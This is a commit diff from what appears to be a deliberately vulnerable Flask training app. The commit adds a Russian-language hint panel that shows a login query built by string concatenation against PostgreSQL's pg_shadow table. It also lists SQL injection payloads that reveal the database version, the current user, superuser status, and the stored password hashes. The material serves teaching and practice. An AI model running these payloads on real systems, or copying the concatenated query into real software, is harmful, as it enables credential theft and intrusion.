

Before and after one commit to maximvscow/pg-hack, a Flask app: page / in a window 1280 px wide, after a click on "Подсказка". Shown: the part 356-1021 px from the top of the page. Before the commit the page ends 493 px from the top, so only its background shows below. Run offline with Flask 2, Linux system fonts and the light colour scheme; data that the repository does not hold is empty; some libraries are stand-ins or nearby versions.

Commit message:
hint done

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -37,14 +37,29 @@
 </p>
 <div class="collapse" id="collapseExample">
   <div class="card card-body">
-    {% for book in books %}
-        <div class='book'>
-            <h3>#{{ book[0] }} - {{ book[1] }} BY {{ book[2] }}</h3>
-            <i><p>({{ book[3] }} pages)</p></i>
-            <p class='review'>{{ book[4] }}</p>
-            <i><p>Added {{ book[5] }}</p></i>
+        <div>
+            <h3>На сервере выполняется следующий запрос к БД:</h3>
+            <p class='review'>SELECT EXISTS (SELECT * FROM pg_shadow WHERE usename = '" + login + "' AND passwd = '" + full_hash + "');</p>
         </div>
-    {% endfor %}
+        <div>
+            <h3>1. Узнать версию БД</h3>
+            <i><p>Используется закрытие ковычек и комментарий в конце</p></i>
+            <p class='review'>123')||(SELECT version());--</p>
+            <i><p>Для объединения запросов используется ||</p></i>
+        </div>
+        <div>
+            <h3>2. Узнать текущего пользователя БД</h3>
+            <p class='review'>123')||(SELECT current_user);--</p>
+        </div>
+        <div>
+            <h3>3. Является ли текущий пользователь суперпользователем</h3>
+            <p class='review'>123')||(SHOW is_superuser);--</p>
+        </div>
+        <div>
+            <h3>4. Получить логин и хэш пароля</h3>
+            <p class='review'>123')||(SELECT usename, passwd FROM pg_shadow WHERE usename = current_user);--</p>
+            <i><p>Системная таблица pg_shadow хранит логины и хэши паролей</p></i>
+        </div>
   </div>
 </div>
 </div>
```
Also changed, not shown: books.txt (added, +16 -0 lines).
